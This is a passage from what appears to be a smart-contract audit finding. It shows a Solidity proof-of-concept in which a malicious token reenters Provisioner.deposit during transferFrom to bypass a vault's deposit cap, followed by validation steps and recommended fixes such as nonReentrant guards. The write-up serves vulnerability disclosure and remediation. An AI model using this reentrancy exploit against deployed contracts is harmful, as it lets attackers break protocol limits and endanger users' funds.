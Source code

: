 ```solidity
            asyncDepositEnabled: false,
            asyncRedeemEnabled: false,
            syncDepositEnabled: true
        });
        prov.setTokenDetails(IERC20(address(token)), details);
    }

    function exploit() external {
        // Setup reentrancy
        token.setProvisioner(prov);
        token.setReenterOnce(true);

        // Choose A and B such that A+B > cap margin; with 1:1 pricing, units == tokens
        uint256 A = 70 ether;
        // Call initial deposit; during transferFrom it will reenter and deposit B=A
        prov.deposit(IERC20(address(token)), A, 1);

        // Post-condition: vault.totalSupply() == 140 ether, exceeding cap margin assessed at pre-mint snapshot
        require(IERC20(address(vault)).totalSupply() > 100 ether, "cap bypass failed");
    }
}
```

Validation steps (without running code):

1) Configure `depositCap` to a known value (e.g., 100 units in numeraire terms), and enable sync deposits with unit price active in the calculator.
2) Use a token that, during `transferFrom`, calls back into `Provisioner.deposit` or `Provisioner.mint` (as above).
3) Invoke `Provisioner.deposit(token, A, ...)` with `A` chosen so that `A + B` exceeds the cap margin but each individually passes. In the PoC, `B = A` via the reentrant call.
4) Observe that both pre‑mint cap checks pass against the same `totalSupply()` snapshot. After both `enter` calls complete, `IERC20(vault).totalSupply()` equals `S + A + B`, exceeding the cap.

Recommended fixes:

- Add `nonReentrant` to `deposit` and `mint`.
- Defense-in-depth: track a transient `pendingUnitsToMint` accumulator set before calling `enter(...)` and included in cap checks, cleared after completing `enter`. This maintains correctness even if reentrancy is later allowed.
- Alternatively, move cap enforcement into the vault and make the decision atomically with the mint, or ensure any external calls occur after the mint while guarding reentrancy and accounting for hook reentrancy surfaces.